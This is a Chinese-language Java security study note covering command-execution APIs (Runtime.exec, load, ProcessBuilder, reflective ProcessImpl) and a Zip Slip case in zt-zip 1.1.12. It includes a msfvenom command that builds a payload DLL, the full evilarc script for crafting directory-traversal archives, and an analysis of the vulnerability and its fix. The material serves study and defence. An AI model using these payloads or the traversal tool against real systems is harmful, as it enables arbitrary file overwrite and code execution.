

# 基础篇

## 系统属性

常与`System.getProperty()`、`System.getProperties()`方法搭配使用

```java
java.version                    Java 运行时环境版本
java.vendor                     Java 运行时环境供应商
java.vendor.url                 Java 供应商的 URL
java.vm.specification.version   Java 虚拟机规范版本
java.vm.specification.vendor    Java 虚拟机规范供应商
java.vm.specification.name      Java 虚拟机规范名称
java.vm.version                 Java 虚拟机实现版本
java.vm.vendor                  Java 虚拟机实现供应商
java.vm.name                    Java 虚拟机实现名称
java.specification.version      Java 运行时环境规范版本
java.specification.vendor       Java 运行时环境规范供应商
java.specification.name         Java 运行时环境规范名称
os.name                         操作系统的名称
os.arch                         操作系统的架构
os.version                      操作系统的版本
file.separator                  文件分隔符（在 UNIX 系统中是“ / ”）
path.separator                  路径分隔符（在 UNIX 系统中是“ : ”）
line.separator                  行分隔符（在 UNIX 系统中是“ /n ”）
java.home                       Java 安装目录
java.class.version              Java 类格式版本号
java.class.path                 Java 类路径
java.library.path               加载库时搜索的路径列表
java.io.tmpdir                  默认的临时文件路径
java.compiler                   要使用的 JIT 编译器的名称
java.ext.dirs                   一个或多个扩展目录的路径
user.name                       用户的账户名称
user.home                       用户的主目录
user.dir                        用户当前工作目录
```

# 漏洞篇

## Command Execution 命令执行

Java有以下几种执行命令的方法

- java.lang.Runtime
  - exec()
  - load()
- java.lang.ProcessBuilder
- java.lang.ProcessImpl
- JNI

### java.lang.Runtime

#### exec()

测试代码

```java
import java.io.IOException;

public class CE01 {
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

测试效果


调用栈

```
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
exec:620, Runtime (java.lang)
exec:450, Runtime (java.lang)
exec:347, Runtime (java.lang)
main:6, CE01 (CommandExecution.Runtime)
```

#### load()

- 加载动态链接库，如linux下的so文件，windows下的dll文件。

准备dll - 弹计算器

```
msfvenom -p windows/x64/exec --platform win -a x64 CMD=calc.exe EXITFUNC=thread -f dll> calc.dll
```


测试代码

```java
public class CE00 {
    public static void main(String[] args) {
        Runtime rt = Runtime.getRuntime();
        rt.load("D:\\java-security\\basic knowledge\\calc.dll");
    }
}
```

测试效果


### java.lang.ProcessBuilder

测试代码

```java
import java.io.IOException;

public class CE02 {
    public static void main(String[] args) throws IOException {
        ProcessBuilder pb = new ProcessBuilder("calc");
        Process process = pb.start();
        System.out.println(process);
    }
}
```

测试效果


调用栈

```
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
main:7, CE02 (CommandExecution.ProcessBuilder)
```

### java.lang.ProcessImpl

测试代码

```java
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Map;

public class CE03 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        /*
        * 反射调用 java.lang.ProcessImpl#start(java.lang.String[], java.util.Map, java.lang.String, java.lang.ProcessBuilder.Redirect[], boolean)
        */
        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method start = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        start.setAccessible(true);
        start.invoke(null, new String[]{"calc"}, null, null, null, false);
    }
}
```

测试效果


调用栈

```
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
main:14, CE03 (CommandExecution.ProcessImpl)
```

### JNI

(暂放)

## Zip Slip

### zt-zip v1.1.12

测试环境

- https://github.com/cesarsotovalero/zip-slip-exploit-example

测试效果

> 正常压缩文件

evil(2).zip


> 恶意压缩文件

evil.zip


恶意python脚本

```python
import sys, zipfile, tarfile, os, optparse

def main(argv=sys.argv):
	p = optparse.OptionParser(description = 'Create archive containing a file with directory traversal', 
								prog = 'evilarc',
								version = '0.1',
								usage = '%prog <input file>')
	p.add_option('--output-file', '-f', dest="out", help="File to output archive to.  Archive type is based off of file extension.  Supported extensions are zip, jar, tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.")
	p.set_default("out", "evil.zip")
	p.add_option('--depth', '-d', type="int", dest="depth", help="Number directories to traverse. Defaults to 8.")
	p.set_default("depth", 8)
	p.add_option('--os', '-o', dest="platform", help="OS platform for archive (win|unix). Defaults to win.")
	p.set_default("platform", "win")
	p.add_option('--path', '-p', dest="path", help="Path to include in filename after traversal.  Ex: WINDOWS\\System32\\")	
	p.set_default("path", "")
	options, arguments = p.parse_args()
	
	if len(arguments) != 1:
		p.error("Incorrect arguments")
		
	fname = arguments[0]
	if not os.path.exists(fname):
		sys.exit("Invalid input file")
		
	if options.platform == "win":
		dir = "..\\"
		if options.path and options.path[-1] != '\\':
			options.path += '\\'
	else:
		dir = "../"
		if options.path and options.path[-1] != '/':
			options.path += '/'

	zpath = dir*options.depth+options.path+os.path.basename(fname)
	print "Creating " + options.out + " containing " + zpath;	
	ext = os.path.splitext(options.out)[1]
	if os.path.exists(options.out):
		wmode = 'a'
	else:
		wmode = 'w'
	if ext == ".zip" or ext == ".jar":
		zf = zipfile.ZipFile(options.out, wmode)
		zf.write(fname, zpath)
		zf.close()
		return
	elif ext == ".tar":
		mode = wmode
	elif ext == ".gz" or ext == ".tgz":
		mode = "w:gz"
	elif ext == ".bz2":
		mode = "w:bz2"
	else:
		sys.exit("Could not identify output archive format for " + ext)

	tf = tarfile.open(options.out, mode)
	tf.add(fname, zpath)
	tf.close()


if __name__ == '__main__':
     main()

```

```cmd
python evilarc.py -d 10 -o unix evil.sh
```


测试效果


漏洞分析


- 判断文件是否为`.zip`后缀
- 调用 `org.zeroturnaround.zip.ZipUtil#unpack`进行解压缩

调用栈

```
process:1150, ZipUtil$Unpacker (org.zeroturnaround.zip)
iterate:508, ZipUtil (org.zeroturnaround.zip)
iterate:472, ZipUtil (org.zeroturnaround.zip)
unpack:996, ZipUtil (org.zeroturnaround.zip)
unpack:939, ZipUtil (org.zeroturnaround.zip)
doPost:56, UploadServlet (se.kth.servlet)
...
```



- 执行到`org.zeroturnaround.zip.ZipUtil.Unpacker#process`方法，调用 `java.util.zip.ZipEntry#getName` 获取 entry 的 name

- 与`outputDir` 进行拼接创建一个 File 实例 `file`

  - 并未对获取到的路径进行校验

    

  - 最后调用`org.zeroturnaround.zip.commons.FileUtils#copy` 将输入流复制到实例`file`（写入文件）。

漏洞修复

pom.xml

```xml
<dependency>
    <groupId>org.zeroturnaround</groupId>
    <artifactId>zt-zip</artifactId>
    <version>1.13</version>
    <type>jar</type>
</dependency>
```


在文件写入之前，进行了两处判断

- `name`中是否出现了`..`

- `file`的规范路径名的前缀是否为`outputDir`的规范路径名

  - getCanonicalPath()
    - 返回绝对唯一的标准规范路径名，即会删除路径中的`.`和`..`
    - 会解析软连接（在UNIX平台上）

  > ps：感觉这里在Linux平台上可以利用 条件竞争 + 软链接 进行绕过（实战意义不大、积累思路）

ref:

- https://github.com/snyk/zip-slip-vulnerability
- https://github.com/cesarsotovalero/zip-slip-exploit-example